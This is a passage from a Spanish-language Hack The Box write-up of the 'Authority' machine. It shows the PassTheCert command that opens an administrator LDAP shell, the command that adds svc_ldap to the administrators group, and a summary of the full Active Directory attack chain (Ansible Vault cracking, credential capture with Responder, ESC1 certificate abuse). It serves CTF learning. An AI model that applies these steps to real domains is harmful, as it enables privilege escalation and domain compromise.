Este comando abre una **consola interactiva de administración (Shell de LDAP)** con privilegios de **Administrador del Dominio** sobre el Controlador de Dominio de la máquina. Se abrirá un prompt en tu terminal que te permite ejecutar comandos directos sobre la base de datos de Active Directory como si fueras el Administrador.

```
python PassTheCert/Python/passthecert.py -action ldap-shell -crt administrator.crt -key administrator.key -domain authority.htb -dc-ip 10.129.229.56
```

<p align="center">

</p>

Al ejecutar ese comando dentro de la shell interactiva de PassTheCert, utilizas el certificado de `Administrator` para modificar la base de datos de Active Directory y **elevar los privilegios de `svc_ldap`**.

```
add_user_to_group svc_ldap administrators
```

Reinicio evil-winrm y consigo root.txt 

<p align="center">

</p>

## Conclusión

**Authority** es una máquina Windows de dificultad media de Hack The Box centrada en la explotación de servicios Active Directory, aplicaciones web mal configuradas y Active Directory Certificate Services (AD CS). 

El acceso inicial se logra enumerando el recurso compartido SMB `Development` con la cuenta `guest`, donde se hallan archivos de despliegue de Ansible cuyos secretos cifrados en _Ansible Vault_ se rompen por fuerza bruta con `john`, revelando las credenciales de administración del portal de gestión de contraseñas PWM. 

Al modificar la configuración LDAP en PWM hacia un servidor de escucha (_Responder_), se interceptan las credenciales en texto plano del usuario `svc_ldap`, permitiendo el acceso inicial por WinRM. 

Finalmente, la escalada a Administrador se realiza identificando la plantilla de certificado vulnerable `CorpVPN` (vector **ESC1** accesible para `Domain Computers`), aprovechando la cuota `ms-DS-MachineAccountQuota` para crear una cuenta de equipo (`dani$`), solicitando un certificado digital a nombre del usuario `administrator` y utilizando **PassTheCert** para agregar a `svc_ldap` al grupo local de Administradores.
